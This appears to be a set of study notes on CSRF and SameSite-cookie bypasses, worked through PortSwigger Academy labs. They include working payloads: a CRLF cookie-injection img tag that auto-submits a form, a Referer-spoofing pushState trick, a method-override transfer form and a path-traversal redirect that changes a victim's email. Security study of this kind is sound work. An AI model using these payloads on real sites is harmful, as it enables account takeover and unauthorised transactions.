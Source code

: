 > Note
> 
> Although CSRF is normally described in relation to cookie-based session handling, it also arises in other contexts where the application automatically adds some user credentials to requests, such as HTTP Basic authentication and certificate-based authentication.

### Validation of CSRF token depends on request method
Some applications correctly validate the token when the request uses the `POST` method but skip the validation when the `GET` method is used. 

### Validation of CSRF token depends on token being present
Some applications correctly validate the token when it is present but skip the validation if the token is omitted. 

### CSRF token is not tied to the user session
Some applications do not validate that the token belongs to the same session as the user who is making the request. Instead, the application maintains a global pool of tokens that it has issued and accepts any token that appears in this pool. 

### CSRF token is tied to a non-session cookie
If the website contains any behavior that allows an attacker to set a cookie in a victim's browser, then an attack is possible.  
The attacker can log in to the application using their own account, obtain a valid csrf token and cookie that is associated with that csrf token, leverage the cookie-setting behavior to place their cookie into the victim's browser, and feed their token to the victim in their CSRF attack. 

> Note: The cookie-setting behavior does not even need to exist within the same web application as the CSRF vulnerability. Any other application within the same overall DNS domain can potentially be leveraged to set cookies in the application that is being targeted, if the cookie that is controlled has suitable scope. For example, a cookie-setting function on staging.demo.normal-website.com could be leveraged to place a cookie that is submitted to secure.normal-website.com. 

#### Lab: (see csrfNotTiedToSession.html)
There's an update email endpoint:
```
POST /email/change HTTP/1.1
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa
Body: csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
```

Exploiting:
- Send the request to Burp Repeater and observe that changing the session cookie logs you out, but changing the `csrfKey` cookie merely results in the `CSRF` token being rejected. This suggests that the `csrfKey` cookie may not be strictly tied to the session.
- Open a private/incognito browser window, log in to your other account, and send a fresh update email request into Burp Repeater.
- Observe that if you swap the `csrfKey` cookie and `csrf` parameter from the first account to the second account, the request is accepted and the email in the second account is updated. 

So if we can put `csrfKey` cookie into victim's browser then we can change their email
- Back in the original browser, perform a search, send the resulting request to Burp Repeater, and observe that the response from the server contains: `Set-Cookie: LastSearchTerm=<whatever was put into the search input>; Secure; HttpOnly`. Since there is no check for whatever is returned as a response to Set-Cookie, the cookie will be injected into the victim user's browser. 

i.e. If can put the following into the victim's browser:
```
<img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">
```
Then the response from the server will be changed from this:
```
HTTP/2 200 OK
Set-Cookie: LastSearchTerm=hoba; Secure; HttpOnly
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3420
```
To this:
```
HTTP/2 200 OK
Set-Cookie: LastSearchTerm=test%0d%0aSet-Cookie:%20csrfKey=isbL4U9B3oBTG7MakdcPCoJsrDFyWhoj%3b%20SameSite=None; Secure; HttpOnly
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3420
```
And victim will be set with the cookie that we specified

### CSRF token is duplicated in a cookie
> Note: If confused look at the previous `CSRF token is tied to a non-session cookie`

In a further variation on the preceding vulnerability, some applications do not maintain any server-side record of tokens that have been issued, but instead duplicate each token within a cookie and a request parameter. When the subsequent request is validated, the application simply verifies that the token submitted in the request parameter matches the value submitted in the cookie

Here, the attacker doesn't need to obtain a valid token of their own. They simply invent a token (perhaps in the required format, if that is being checked), leverage the cookie-setting behavior to place their cookie into the victim's browser, and feed their token to the victim in their CSRF attack. 

### CSRF where Referer validation depends on header being present
Some applications validate the Referer header when it is present in requests but skip the validation if the header is omitted. 

### CSRF with broken Referer validation
If Referer header does not contain `YOUR-LAB-ID.web-security-academy.net` then the csrf token is rejected. But the validation of that `Referer` header is done via `contains()` function. 
So if we try to send: `Referer: https://arbitrary-incorrect-domain.net?YOUR-LAB-ID.web-security-academy.net` it is accepted.

Therefore if we include in our exploit:
```
history.pushState("", "", "/?YOUR-LAB-ID.web-security-academy.net")
```
`history.pushState` changes the current suburl to whatever is specified as the third argument of func call and therefore it changes the Referer and it becomes `https://arbitrary-incorrect-domain.net?YOUR-LAB-ID.web-security-academy.net`

> Note: Many browsers now strip the query string from the Referer header by default.
> You can override this behavior by making sure that the response from the server that contains your exploit has the `Referrer-Policy: unsafe-url` header set (note that `Referrer` is spelled correctly in this case, just to make sure you're paying attention!). This ensures that the full URL will be sent, including the query string. 

## Bypassing SameSite cookie restrictions
`Lax` SameSite restrictions mean that browsers will send the cookie in cross-site requests, but only if both of the following conditions are met:
- The request uses the `GET` method.
- The request resulted from a top-level navigation by the user, such as clicking on a link.

### Bypassing SameSite Lax restrictions using GET requests
In practice, servers aren't always fussy about whether they receive a GET or POST request to a given endpoint.
We can try to change POST to GET

Even if an ordinary GET request isn't allowed, some frameworks provide ways of overriding the method specified in the request line. 
For example, Symfony supports the `_method` parameter in forms, which takes precedence over the normal method for routing purposes: 
```
<form action="https://vulnerable-website.com/account/transfer-payment" method="POST">
    <input type="hidden" name="_method" value="GET">
    <input type="hidden" name="recipient" value="hacker">
    <input type="hidden" name="amount" value="1000000">
</form>
```
**Other frameworks support a variety of similar parameters.** 

### SameSite Strict bypass via client-side redirect
**Always search for `window.location`, `document.location` or `location` objects in javascript files.**

Let's say there's a post new comment url and after submitting that comment we are redirected to the following url:
```
GET /post/comment/confirmation?postId=7
```
After we're redirected to this confirmation page we can see there's a setTimeout between `<script>` tags:
```
setTimeout(() => {
     const url = new URL(window.location);
     const postId = url.searchParams.get("postId");
     window.location =  'post/' + postId;
}, 3000);
```
Which redirect back to the post page based on its id. e.g.:
```
https://lab-id.web-security-academy.net/post/7
```

The most interesting here is:
```
window.location = 'post/' + postId;
```
We have an email change endpoint which originally was a POST req but we tried and it turns out it can be change to GET and it'll update email anyway.
```
GET /my-account/change-email?email=ff%40ff.com&submit=1
```
So we can do the following: (notice: %2e%2e%2f (which is ../) after postId, this is needed because inside of setTimeout we have 'post/' + postId)
```
document.location = "https://lab-id.web-security-academy.net/post/comment/confirmation?postId=%2e%2e%2fmy-account%2fchange-email%3femail%3danna333%40ff.com%26submit%3d1"
```
And that will update the email


